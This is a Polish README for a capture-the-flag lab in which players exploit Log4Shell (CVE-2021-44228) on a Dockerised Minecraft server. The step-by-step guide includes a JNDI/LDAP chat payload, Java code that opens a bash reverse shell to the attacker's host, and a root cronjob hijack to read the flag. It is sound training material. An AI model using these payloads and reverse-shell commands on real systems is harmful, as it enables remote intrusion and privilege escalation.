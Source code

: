 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Zasady CTF

Uruchomiony kontener obrazu **kwasnyy/mcctf:mcexpl** jest atakowanym serwerem. Założenie jest, że nie masz do niego dostępu, nie masz o nim wiedzy (poza tym co piszemy tutaj). Więc zdobywanie wiedzy poprzez sprawdzanie `Dockerfile` albo włamywanie się poprzez `docker exec -it ID bash` jest bez sensu i nie jest rozwiązaniem CTF'a.
Pozostałe uruchamiane kontenery są już twoją własnością, możesz robić z nimi co chcesz.


## Wymagania
- Docker,
- Java (do uruchomienia clienta Minecrafta - jeśli jej nie masz, pobierz i zainstaluj),
- [Minecraft Launcher](/SKlauncher-Universal-All-Versions.jar) albo jakikolwiek inny launcher,
- NetCat (użyj WSL lub zainstaluj na Windowsie),

## HARD - Ogólny zarys postępowania
1. Uruchom server docker z serverem Minecraft:
   - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
2. Wykorzystaj podatność CVE-2021-44228 do uzyskania reverse shell
   - napoczęty `marshalsec/Dockerfile` może ci ułatwić,
   - tak samo masz `codehttp/` gdzie manipulować trzeba tylko linijką gdzie ustawia zmienną `cmd`,
3. Interesujący cię plik jest umieszczony gdzieś na systemie,
4. Rozejrzyj się po plikach w folderze `/server`,
5. Po odczytaniu tajnego kodu zapraszamy do wspólnej gry :)


## EASY - Krok po kroku

### 0. Uruchamianie SKLauncher
   1. Otwórz SKLauncher, który również znajduje się w repozytorium.
   2. Wybierz tryb offline.
   3. Kliknij '+' obok "Installations Manager".
   4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### 1. Uruchomienie serwera Minecraft
   1. **Uruchom Minecraft'a:**
      - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
      - po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

### 2. Wykorzystaj podatnośc CVE-2021-44228 do uzyskania reverse shell


<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

   1. **Uruchom serwer LDAP:**
      - `cd marshalsec`
      - znając schemat działania *JNDI* ustaw w Dockerfile adres IP i PORT gdzie będzie wystawiony kod do wykonania na serwerze Minecrafta,
      - `docker build . -t marshal`
      - `docker run -p 1389:1389 -ti marshal`

   2. **Przygotuj kod do połączenia się z reverse shell i wystaw go na serwerze http:**
      - przygotuj sobie `netcat` na hoście (swoim komputerze), może na wsl, a może zainstaluj na Windowsie,
      - potem uruchamiasz nasłuchiwanie komendą `nc -l [port]`,
      - cd `codehttp/`
      - ten kontener służy do serwowania statycznych plików po http,
      - edytuj linijkę w pliku `Log4jRCE.java`,
         1. nie uruchamiaj komendy bezpośrednio, lecz stwórz plik, a potem uruchom go bashem,
         2. dodaj " &" na końcu linijki w pliku gdzie uruchamiasz netcata, dzięki temu zostanie on uruchomiony w tle, a server Minecrafta nie scrashuje,
         3. podpowiedzi:
            1. `bash -c "..."`,
            2. `echo "komenda > plik.sh" ; bash plik.sh`,
            3. `nohup`,
            4. `bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1`,
            5. ` &`,
         4. 
            <details>
            <summary><b> Pokaż komendę:</b></summary>

            ```java
            String[] cmd = {"bash", "-c", "echo 'nohup bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1 &' > /server/script.sh; bash /server/script.sh"};
            ```

            </details>
      - podczas budowania obrazu zostanie ten plik do niego skopiowany, a następnie skompilowany,
      - a po uruchomieniu kontenera, będzie serwowany plik "Log4jRCE.class" na porcie *:8888* tego kontenera,
      - zbuduj obraz: `docker build . -t codehttp`,
      - uruchom kontener: `docker run -p 8888:8888 -ti codehttp`,
   3. **NA CZACIE W MINECRAFT WYŚLIJ:**
      `${jndi:ldap://ADRES_TWOJEGO_KOMPA:1389/Log4jRCE}`

### 3. Interesujący cię plik jest umieszczony gdzieś na systemie:
   wyszukaj plik komendą `find / -name "flag.txt"`,

### 4. Rozejrzyj się po plikach w folderze `/server`:
   1. interesuje cię plik `cronjob.sh`,
   2. zobacz na zawartość - wykonuje on backup świata minecrafta,
   3. `ls -la /server/bqp` - zobacz kto jest właścicielem folderów - ten sam user ma w swoim cronie zamontowane uruchamianie tego skryptu,
   4. podmień zawartość skryptu `cronjob.sh` na taką, która wykonana z uprawnieniami roota pozwoli na odczytanie pliku,
   5. <details>
      <summary><b>Pokaż komendę:</b></summary>
      `echo "chmod 666 /usr/lib/jvm/jre1.8.0_181/lib/desktop/icons/LowContrast/16x16/mimetypes/flag.txt" > /server/cronjob.sh`
      </details>

### 5. Po odczytaniu flagi zapraszamy do wspólnej gry :)
   0. postępuj zgodnie z instrukcjami klikając przyciski,
   1. wprowadź flagę do skrzynki,
   2. odczekaj chwilkę,
   3. Zapraszamy do wspólnej gry! <3


## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

### Uzyskanie Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```


## Przydatne komendy 

### Docker
```sh
docker build . -t <jakas nazwa>
docker run -p <host>:<docker> -ti <jakas nazwa>
docker ps
docker ps -a
docker kill <id>     # nie trzeba wpisywać całego id, wystarczy jednoznacznie identyfikujący początek
docker remove <id>   # tu też, generalnie tak działa id
docker image prune   # wywal nieuruchomione image
docker container prune  # wywal zatrzymane kontenery (kontener po CTRL+C zostaje zatrzymany, a nie usunięty)
```

<br>

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft](https://www.minecraftxl.com/deep-sea-map/) od BlockWorks


